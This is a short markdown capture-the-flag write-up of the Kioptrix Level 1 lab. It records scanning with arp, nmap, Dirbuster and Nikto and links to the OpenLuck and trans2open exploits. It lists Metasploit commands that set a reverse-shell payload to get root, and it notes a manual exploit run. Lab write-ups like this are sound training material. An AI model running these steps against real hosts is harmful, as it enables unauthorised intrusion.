IP - 192.168.133.128

---

NOTES:



80/443 - Potentially vulnerable to OpenLuck([https://www.exploit-db.com/exploits/764](https://www.exploit-db.com/exploits/764)),[https://github.com/heltonWernik/OpenLuck](https://github.com/heltonWernik/OpenLuck)

  

Potentially vulnerable totrans2open([https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)),[https://www.exploit-db.com/exploits/16861](https://www.exploit-db.com/exploits/16861)

---

---

---

1 - arp scan detected ip for the kioptrx machine:



2 - nmap scan for the Kioptrx machine Level 1:



---

**Dirbuster is a tool that can discover directories available on a web server.**



**Nikto targets HTTP:**



---

First Metasploit:



ssh:



---





---

Gaining root with Metasploit:

1 - _search trans2open_



2 - _use exploit/linux/samba/trans2open_



3 - _set RHOST192.168.1.14_

4 - _set payload linux/x86/shell_reverse_tcp_

5 - _set lhost 192.168.1.15_

6 - **_exploit_**



---

Gaining root manually:

1 - Downloaded OpenFuck:



2 - followed the installation demo

3 - **gained access**

